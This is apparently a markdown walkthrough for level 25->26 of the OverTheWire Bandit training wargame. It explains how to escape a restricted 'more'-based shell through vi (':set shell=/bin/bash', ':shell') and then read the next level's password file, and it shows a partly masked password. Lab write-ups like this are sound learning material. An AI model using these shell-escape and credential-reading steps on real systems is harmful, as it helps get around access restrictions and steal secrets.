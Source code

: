 # Bandit25 -> 26 Challenge

**MUST READ:**
<br>
<br>
After completing the lvl don't logout yet!
<br>
<br>

**Username:**
<br>
<br>
**bandit25**
<br>
<br>
**Password:**
<br>
<br>
**XXXXXXXXXXXXXXXXXXXXXXXXXXXpx8d**
<br>
<br>

**Task:**
Logging in to bandit26 from bandit25 should be fairly easy… 
The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
<br>
<br>
**OverTheWire Levels**
<br>
[Overthewire.org](https://overthewire.org/wargames/bandit/bandit26.html)

**Solution**
<br>
Do a 'ls -la', and get the password from min.(Fyi, we are going to need to min the screen and the cmd 'more')

**Step 1:**
<br>
ls -la

**Step 2:**
<br>
cat /etc/passwd | grep bandit26

**Step 3:**
<br>
cat /usr/bin/showtext

**Step 4:**
<br>
Shrink your console
<br>
(This helps with the process)

**Step 5:**
<br>
ssh -i ./bandit26.sshkey bandit26@localhost -p 2220
<br>
(After shrinking the console)

**Step 6:**
<br>
Press 'v'
<br>
(After it say's "More")

**Step 7:**
<br>
:set shell=/bin/bash
<br>
(After pressing "v")

**Step 8:**
<br>
:shell
<br>
(After doing Step 7)

**Step 9:**
<br>
cat /etc/bandit_pass/bandit26


*Fast way to logging in:*
<br>
ssh bandit.labs.overthewire.org -p 2220 -l bandit (whatever lvl you are on)

**Script for lvl**
<br>
**To be continued**
